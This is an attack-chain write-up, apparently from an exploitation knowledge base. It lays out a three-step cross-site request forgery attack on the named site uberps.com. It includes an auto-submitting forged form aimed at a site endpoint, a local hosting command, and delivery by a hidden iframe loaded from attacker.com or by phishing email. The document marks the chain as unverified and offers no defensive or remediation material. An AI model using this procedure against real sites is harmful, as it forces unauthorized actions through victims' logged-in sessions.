

# CSRF Exploitation on Uberps.com Forms Leading to Unauthorized Actions

Multi-stage attack chain demonstrating a complete CSRF workflow on the vulnerable uberps.com microsite.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for inspection
- Local web server (e.g., Python's http.server) for hosting PoC

### Target Environment

- Web platform
- Authenticated session on https://uberps.com
- No specific ports or services beyond standard HTTPS (443)

### Initial Access Requirements

- User must be authenticated on uberps.com
- Attacker controls a malicious website or email for delivery
- Network access to uberps.com from victim's browser

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Forms
procedure: [[procedures/Identify-Vulnerable-CSRF-Forms]]

**Objective**: Discover forms on uberps.com lacking CSRF tokens or protections to identify exploitable endpoints.

**Instructions**: Use browser developer tools to inspect forms on https://uberps.com. Look for action URLs and check for missing anti-CSRF tokens like hidden fields or custom headers.

For example, navigate to a form page and inspect the HTML:

```html
<!-- Example inspection in browser console -->
console.log(document.querySelectorAll('form'));
```

Submit a test form manually and monitor network requests for token presence.

**Expected Output**: List of form actions (e.g., /submit-transaction) without CSRF tokens.

**Success Indicators**:
- Forms identified without token fields
- Network requests confirm no token validation

### Step 2: Craft Malicious CSRF PoC
procedure: [[procedures/Craft-Malicious-CSRF-PoC]]

**Objective**: Create a malicious HTML page that automatically submits a forged request to the vulnerable form using the victim's authenticated session.

**Instructions**: Write an HTML file with an auto-submitting form targeting the vulnerable endpoint. Host it locally and test in a browser authenticated to uberps.com.

Example PoC creation:

```html
<!DOCTYPE html>
<html>
<body>
<form action="https://uberps.com/submit-action" method="POST" id="csrf-form">
    <input type="hidden" name="sensitive_param" value="malicious_value">
</form>
<script>
document.getElementById('csrf-form').submit();
</script>
</body>
</html>
```

Serve it with a local server:

```bash
python -m http.server 8000
```

**Expected Output**: Form auto-submits, performing the action without user interaction.

**Success Indicators**:
- Request sent to uberps.com from malicious page
- Action (e.g., data modification) confirmed on target site

### Step 3: Deliver and Execute CSRF Attack
procedure: [[procedures/Deliver-and-Execute-CSRF-Attack]]

**Objective**: Trick the victim into loading the malicious PoC while authenticated, forcing unauthorized actions.

**Instructions**: Host the PoC on a controlled domain or send via phishing email. Ensure the victim visits while logged into uberps.com.

For delivery, embed in an iframe or link:

```html
<iframe src="http://attacker.com/csrf-poc.html" style="display:none;"></iframe>
```

Monitor for successful execution via server logs or follow-up effects on uberps.com.

**Expected Output**: Victim's browser submits the forged request, leading to unauthorized transaction or modification.

**Success Indicators**:
- Unauthorized action logged on uberps.com
- No user consent required for submission

## Attack Chain Summary

### Key Achievements

1. Identified CSRF-vulnerable forms on uberps.com
2. Crafted and hosted a functional PoC for exploitation
3. Demonstrated potential for unauthorized sensitive actions

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Drive-by Compromise]] Drive-by Compromise

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T12:00:00Z*
